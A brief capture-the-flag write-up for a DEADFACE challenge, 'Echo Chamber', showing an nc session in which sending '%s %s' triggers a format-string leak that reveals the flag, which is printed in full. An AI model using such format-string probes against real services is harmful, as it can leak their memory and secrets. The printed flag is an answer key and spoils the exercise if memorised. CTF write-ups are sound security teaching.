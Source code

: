 ### challenge
DEADFACE loves their vintage tech, but their "Echo Chamber" chat bot has a critical flaw from the old days. It echoes messages without sanitizing input, potentially leaking sensitive data. As a Turbo Tactical operative, connect to the remote service at echochamber.deadface.io:13337 and exploit it to reveal a hidden flag.

---
When we connect to the remote server it simply echoes back whatever we send, and because the challenge hints at a possible format-string vulnerability, a sensible test is to send the string `%s` to see how the server processes it.
```bash
~  nc echochamber.deadface.io 13337
DEADFACE Echo Chamber
Enter your message: %s %s
Echo: deadface{r3tr0_f0rm4t_l34k_3xp0s3d} deadface{r3tr0_f0rm4t_l34k_3xp0s3d}
```